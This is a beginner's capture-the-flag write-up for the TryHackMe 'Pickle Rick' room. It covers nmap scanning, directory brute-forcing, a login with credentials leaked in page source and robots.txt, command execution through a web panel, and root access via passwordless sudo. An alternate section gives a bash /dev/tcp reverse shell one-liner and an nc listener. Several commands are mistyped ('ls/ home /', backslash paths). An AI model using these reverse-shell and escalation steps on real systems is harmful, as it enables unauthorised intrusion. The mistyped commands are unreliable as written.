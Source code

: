 # Pickle-Rick-Writeup-
A writeup for Pickle Rick CTF room in Tryhackme https://tryhackme.com/room/picklerick. This is my first ever writeup, critics and suggestions are very welcome.

P.S the IP that is used in this writeup is different from each person.

# Scanning the target

For the first step in this excercise let's scan the machine to find
ports that is open using nmap. The options that i used for nmap are:

```
nmap -A -sV -oA nmap_result 10.10.205.
```
![NMAP Resulst](images/1-1.png "NMAP") 
Breakdown of each of this options:

-A : extensive scan on the machine

-sV : enable version detection of each of the ports

-oA : enable the output to be saved locally with the name "nmap_result"


Based on the output of nmap, now we know that there are two ports
that we can access, port 22 and port 80, that is ssh and webserver
respectively. Okay now that we have the ports, what should we do?.
Well since we didn't have any credentials to access the ssh, let's
start with the webserver first.

# First Ingredient

## The webserver
![Webserver](images/3-1.png) 

Not alot to see or do in this page, but we can try to see its source
code if there's anything we can find.
![Webserver](images/3-2.png)

It looks like we found a username commented in the HTML code. If
there's a username then that means there's login page somewhere
in this server. Lets try to brute force the directory to find the login
page and other pages hidden in this server


## Finding directory using Dirsearch

For this excercise i use a tool called “dirsearch” in order to find
these directories. If you are more comfortable with other tools such
as. Gobuster, dirbuster and the likes, i'd say go for it.

The options that i used for dirsearch is:

```
dirsearch -u 10.10.9.36 -e php,html,js
```
A breakdown of this command is:

-u : is the url of the target

-e : will search for the desired extensions

![Dirsearch](images/4-1.png)
It looks like there is a login page and a few other pages within this
server. Let's first take a look at the robots.txt page to see if there's
any other page hidden within the server that we might miss.

![Dirsearch](images/4-2.png)

It looks like one of rick's personal catchphrase that he always
said in the series. But it might mean something, so lets hold on to it.
Next let's try the assets page to find any other hidden file or
information that we can use later on.

![Dirsearch](images/4-3.png)
Nothing of the sorts, all of the files is just an image file and a couple
of css to use for the page. Clicking the parent directory leads us
back to the main page.

## Logging in to Rick's dashboard

After a bit of tour, let's access the login page.

![Dashboard](images/5-1.png)
We know the username is “R1ckRul3s” based on what we found in
the main page's source code, lets try to input “Wubbalubbadubdub”
that we found in the robots.txt as the password.

![Dashboard](images/5-2.png)
correct, now we can look around Rick's dashboard to find the
required ingridients to turn him back. Before moving to other pages
to see what's up, let's input a command “ls -al” to see if there's any peculiar file here.

![Dashboard](images/5-3.png)
and it looks like there is, and what appears to be one of the
ingridient that we need. By replacing the “portal.php” in the url with
the file name, and we get the first ingridient.

![Dashboard](images/5-4.png)
# Second Ingridient

## Knowing the current location of the system

Before we start searching for the second ingridient. First thing is to
know where is our current location in the system, since we already
know that the command panel executes linux command, we can
input 'pwd' to know the current directory.

![Dashboard](images/7-2.png)
Now we know where we are in the system. Since we're in /var, lets
look at /home directory to see what's in it using “ls” command:

```
ls/ home /
```
![Dashboard](images/7-3.png)

There are two directory in home, one is for rick and the other is
ubuntu. let's first search rick directory to see if he's putting the
other ingridients there, the command is "ls -la" to list all the files
that may be hidden to us.

```
ls -al \home\rick
```

![Dashboard](images/7-4.png)

There it is, the file containing the second ingridient. Let's use “cat”
to look at the file.

```
cat "/home/rick/second ingredients"
```
![Dashboard](images/7-5.png)
nope, looks like the “cat” command is disabled here, how about if
we use ‘less’ to see?.

```
less "/home/rick/second ingredients"
```
![Dashboard](images/7-6.png)

There we go.

Disclaimer: i didn't think of using this command when first time
solving this room, instead I use reverse shell.

# Third Ingredient

## Accessing the root

Now that we have the first and the second ingredient, to get the last
we will have to exploit the flaw of this system since we can't access
the root directory with our current privilege. To exploit, first we need
to list all the command the current user are allowed to run, to do
this, execute this command:

```
sudo -l
```
![Root](images/10-1.png)
Based on this output, it means that we are able to freely execute
any command with the highest privileged without the system
prompting us for password, this means we know the way to access
the root directory. Let's list all the files in root with ‘ls’ command:

```
sudo ls/ root
```
![Root](images/10-2.png)
now that we know the name of the file, open it with:

```
sudo less/ root / 3rd.txt
```
![Root](images/10-3.png)
Congratuations. Rick is back into human again.

# Alternate Method

## Open up reverse shell

Instead of executing the command inside the webserver, we can
open up a reverse shell by executing this command in the panel:

```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
Changing the RHOST with our own ip address and the RPORT with
whatever port we desire in our local computer. This will make the
server send a connection to us, what we'll do next is setting up our
computer to get that connection by executing this command in our
local console:

```
sudo nc -lvnp $RPORT
```
Change the RPORT with the same port number that we set for the
server. Breakdown of this command:


- sudo: nc needs to open up a port in the computer, for that it needs
the privilege of the user.

- lvnp: is a combination of option -l to listen for incoming connection,
-n to not perform domain name resolution, -v for verbose output,
and lastly -p to tell what port should nc listen to.

After executing the command, our console will look like this.

![Reverse](images/12-1.png)

We can input whatever command that we execute in the server, and
we can use “cat” command this way, however. The connection at
the current state is considered fragile and will disconnect if we press
ctrl+c. There is a way to stabilize the connection using method from
others, but in my case. I can't seem to do it due to nc always hangs
on me afterwards, it probably an error on my part.



